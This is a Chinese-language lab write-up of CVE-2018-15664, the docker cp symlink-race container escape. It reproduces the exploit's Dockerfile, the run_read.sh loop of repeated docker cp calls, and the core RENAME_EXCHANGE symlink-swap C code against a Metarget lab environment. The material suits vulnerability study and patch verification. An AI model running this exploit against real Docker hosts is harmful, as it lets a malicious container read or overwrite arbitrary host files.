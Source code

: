 #  CVE-2018-15664:Docker CP任意读写主机文件   
Heptagram  七芒星实验室   2024-12-09 23:01  
  
#### 影响范围  
  
Docker 17.06.0-ce～17.12.1-ce:rc2  
  
Docker 18.01.0-ce～18.06.1-ce:rc2  
#### 漏洞类型  
  
容器逃逸  
#### 利用条件  
  
TOCTOU  
#### 漏洞概述  
  
2019年6月份，Docker容器被曝存在权限逃逸安全漏洞(漏洞编号:CVE-2018-15664)，攻击者可利用此漏洞访问主机文件系统的任意文件，该漏洞攻击的基本前提是FllowSymlinkInScope遭受了最基本的TOCTOU攻击(即time-to-check-time-to-use攻击，黑客可利用窗口期在解析资源路径之后但在分配的程序开始在资源上操作之前修改路径)，这里的FllowSymlinkInScope的目的是获取一个既定路径并以安全的方式将其解析，就像该进程是在容器内那样,完整路径被解析后被解析的路径传递了一个比特位，之后在另外一个比特位上操作(在docker cp情况下，在创建流式传输到客户端的文档时打开)，如果攻击者能够在路径解析之后但在操作之前添加一个符号链接组件，那么就能以root身份在主机上解析符号链接路径组件，在"Docker cp"情况下它将导致任何人读取并写入主机任何路径的访问权限  
#### 漏洞环境  
  
这里使用Metarget来构建环境：  
```
./metarget cnv install cve-2018-15664
docker --version
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUiclBNiaEvnGcM0u5b4OuHZbET4d3ibFfjBRiaIxRnlp9g5picJRzL5nVOSriaLY0NPPAgIZI4UYRicHUN97Q/640?wx_fmt=png "")  
#### 漏洞分析  
  
漏洞POC:  
  
https://github.com/Metarget/cloud-native-security-book/tree/main/code/0302-%E5%BC%80%E5%8F%91%E4%BE%A7%E6%94%BB%E5%87%BB/02-CVE-2018-15664/symlink_race/build  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUiclBNiaEvnGcM0u5b4OuHZbETXed00UrviblLmwAoW4ljvwrPhqm2c6YryYeeVicMHwIOeXq4mVUQOjaw/640?wx_fmt=png "")  
  
  
文件目录查看：  
```
root@ubuntu:/home/ubuntu# tree symlink_race
symlink_race
├── build
│   ├── Dockerfile
│   └── symlink_swap.c
├── run_read.sh
└── run_write.sh

1 directory, 4 files
root@ubuntu:/home/ubuntu#
```  
  
  
文件用途说明：  
- Dockerfile : 构造Docker镜像文件  
  
- symlink_swap.c : 运行在Docker容器内部的POC  
  
- run_read.sh : 实现读取宿主机文件内容的Shell脚本  
  
- run_write.sh : 实现向宿主机中写文件的Shell脚本  
  
Dockerfile内容：  
  
首先获取基础镜像opensuse/tumbleweed，然后在镜像里编译添加了poc文件/symlink_swap , 最后写了一个falg 性质的文件/w00t_w00t_im_a_flag，内容为"FAILED -- INSIDE CONTAINER PATH"  
```
# Build the binary.
FROM opensuse/tumbleweed
RUN zypper in -y gcc glibc-devel-static
RUN mkdir /builddir
COPY symlink_swap.c /builddir/symlink_swap.c
RUN gcc -Wall -Werror -static -o /builddir/symlink_swap /builddir/symlink_swap.c

# Set up our malicious rootfs.
FROM opensuse/tumbleweed
ARG SYMSWAP_TARGET=/w00t_w00t_im_a_flag
ARG SYMSWAP_PATH=/totally_safe_path
RUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET"
COPY --from=0 /builddir/symlink_swap /symlink_swap
ENTRYPOINT ["/symlink_swap"]
```  
  
Run_read.sh内容：  
```
SYMSWAP_PATH=/totally_safe_path
SYMSWAP_TARGET=/w00t_w00t_im_a_flag

# Create our flag.
echo "SUCCESS -- COPIED FROM THE HOST" | sudo tee "$SYMSWAP_TARGET"
sudo chmod 000 "$SYMSWAP_TARGET"

# Run and build the malicious image.
docker build -t cyphar/symlink_swap \
    --build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \
    --build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/
ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")

# Now continually try to copy the files.
idx=0
while true
do
    mkdir "ex${idx}"
    docker cp "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET" "ex${idx}/out"
    idx=$(($idx + 1))
done
```  
  
Run_read.sh脚本在host主机/w00t_w00t_im_a_flag文件写入falg内容SUCCESS -- COPIED FROM THE HOST然后build，run cyphar/symlink_swap容器，最后写了个while死循环实现不间断docker cp行为  
  
Symlink_swap.c重点内容：  
```
    /*
     * Now create a symlink to "/" (which will resolve to the host's root if we
     * win the race) and a dummy directory at stash_path for us to swap with.
     * We use a directory to remove the possibility of ENOTDIR which reduces
     * the chance of us winning.
     */
    if (symlink("/", symlink_path) < 0)
        bail("create symlink_path");
    if (mkdir(stash_path, 0755) < 0)
        bail("mkdir stash_path");

    /* Now we do a RENAME_EXCHANGE forever. */
    for (;;) {
        int err = rrenameat2(AT_FDCWD, symlink_path,
                            AT_FDCWD, stash_path, RENAME_EXCHANGE);
        if (err < 0)
            perror("symlink_swap: rename exchange failed");
    }
    return 0;
}
```  
  
symlink_path为argv[1]传递过来的参数，从run_read.sh中我们得知为目录/totally_safe_path，然后使用symlink函数将symlink_path软链接至系统根目录，最后使用for (;;)死循环调用rrenameat2函数，创造赢得TOCTOU攻击的机会，根据作者介绍poc脚本只有1%的机会成功利用TOCTOU攻击，但是在10s后就极可能的成功获取到host主机上的文件  
#### 漏洞利用  
  
执行run_write.sh脚本运行恶意容器，然后不断执行docker cp命令，漏洞未触发时，宿主机上的/w00t_w00t_im_a_flag的内容为"FAILED -- HOST FILE UNCHANGED"  
```
./run_write.sh
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUiclBNiaEvnGcM0u5b4OuHZbET6O9EVeKxHmDqlQlqhFjcwms5MObbbWicFxZEStf7BA5KS2g44dlicaaQ/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUiclBNiaEvnGcM0u5b4OuHZbETZgkviapM6p661HafxwD6DPD62OtAIUicIibUldenVhgcM9J37UROibEHXg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUiclBNiaEvnGcM0u5b4OuHZbETWjHW6DfwIjcPyWic2Wx9iaVjZxuqIxsicel6IKPwYOCvUJSJIN8jFYBZg/640?wx_fmt=png "")  
  
#### 参考连接  
  
https://seclists.org/oss-sec/2019/q2/131  
  
  
**推 荐 阅 读**  
  
  
  
[](https://mp.weixin.qq.com/s?__biz=Mzg4MTU4NTc2Nw==&mid=2247491843&idx=1&sn=98dc962da698a1bdd333be8def6ecad5&scene=21#wechat_redirect)  
[](https://mp.weixin.qq.com/s?__biz=Mzg4MTU4NTc2Nw==&mid=2247493597&idx=1&sn=ed103645b4c30c4692f0cece6a5ac6c1&scene=21#wechat_redirect)  
[](https://mp.weixin.qq.com/s?__biz=Mzg4MTU4NTc2Nw==&mid=2247491787&idx=2&sn=509e2b46d9144323fc9d13a1567296c3&scene=21#wechat_redirect)  
  
横向移动之RDP&Desktop Session Hija  
  
  
